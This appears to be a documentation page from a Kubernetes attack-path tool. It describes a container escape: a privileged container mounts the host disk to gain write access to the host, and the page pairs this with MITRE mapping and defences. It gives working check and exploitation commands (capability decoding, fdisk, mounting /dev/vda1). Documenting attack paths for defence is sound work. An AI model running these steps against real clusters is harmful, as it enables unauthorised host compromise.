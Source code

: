 # CE_PRIV_MOUNT

Mount the host disk and gain access to the host via arbitrary filesystem write

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

A container running with `privileged: true` disables almost all the container isolation mechanisms. As such an attacker can trivially gain access to the host's resources, including the disk, to escape the container. In this attack, we simply list the disks on the host machine, mount them into the container and exploit a privileged file write to gain execution on the host.

## Prerequisites

Execution within a privileged container process.

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_PRIV_MOUNT.yaml).

## Checks

From within a running container, determine whether it is running with as privileged by examining capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff: 000001ffffffffff

# Decode the capabilities (on current box or offline) and check for CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=000001ffffffffff | grep cap_sys_admin
```

Check that the host disks are visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```

## Exploitation

Mount the disks into the container

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

With the disk now writeable from the container, follow the steps in [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#Exploitation).

## Defences

### Monitoring

+ Monitor `mount` events originating from containers
+ See [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#Defences)

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with `privileged` enabled.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapePrivMount](../../pkg/kubehound/graph/edge/escape_priv_mount.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

